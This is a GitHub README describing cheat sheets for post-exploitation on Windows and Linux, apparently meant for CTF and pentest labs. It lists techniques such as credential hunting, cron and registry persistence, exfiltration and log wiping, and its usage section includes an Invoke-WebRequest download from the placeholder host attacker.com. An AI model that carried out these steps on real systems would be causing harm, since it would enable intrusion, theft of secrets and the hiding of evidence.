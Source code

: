 # 🎯 CTF Post-Exploitation Cheat Sheets</h1>

<p align="center">
🛠️ Fast, reliable, and compact cheat sheets for post-exploitation on Windows 10, Windows 11, and Linux systems.<br>
Perfect for CTFs, red teaming, and pentesting labs after gaining shell access.
</p>

---

## 📁 Included Cheat Sheets

| OS            | File Name                      | Description                                                             |
|---------------|--------------------------------|-------------------------------------------------------------------------|
| 🪟 Windows 10  | `windows10_ctf_cheatsheet.txt` | Post-exploitation commands using legacy PowerShell and WMI             |
| 🪟 Windows 11  | `windows11_ctf_cheatsheet.txt` | Updated PowerShell Core support, modern enumeration & persistence      |
| 🐧 Linux        | `linux_ctf_cheatsheet.txt`     | Bash one-liners for privesc, exfil, persistence, and cleanup           |

---

## 🔍 Features

Each cheat sheet is written in pure CLI (PowerShell or Bash), and includes:

### 📌 System Enumeration
- Hostname, OS version, architecture
- Hardware info, uptime, users, and groups

### 🔐 Privilege Escalation
- Add admin users
- `whoami /groups`, `sudo -l`, SUID/GUID checks
- Registry/service and cron inspection

### 🌐 Network Recon
- Interfaces, DNS, routing table
- Active connections, listening ports
- Windows: `netstat`, `Get-NetAdapter`, Linux: `ss`, `ip`, `iptables`

### 🧪 Credential Discovery
- Sensitive file search (`*pass*`, `.kdbx`, `.pem`, etc.)
- Windows Registry autoruns
- `.bash_history`, `/etc/shadow`, and config dumps on Linux

### 🛠️ Persistence
- Registry autoruns, scheduled tasks (Windows)
- `.bashrc`, cron backdoors (Linux)

### 🖥️ Screenshots (Windows GUI)
- PowerShell code to capture the desktop to `.jpg` silently

### 📤 Download / Upload / Exfiltration
- `Invoke-WebRequest`, `curl`, `wget`, `scp` examples

### 🧹 Cleanup
- Windows: `wevtutil`, file deletions
- Linux: `history -c`, `/var/log` removal

---

## 📦 Usage

Just clone or download this repo:

```bash
git clone https://github.com/yourusername/ctf-postexploitation-cheatsheets.git

```windows powershell

Invoke-WebRequest http://attacker.com/windows10_ctf_cheatsheet.txt -OutFile cheat.txt
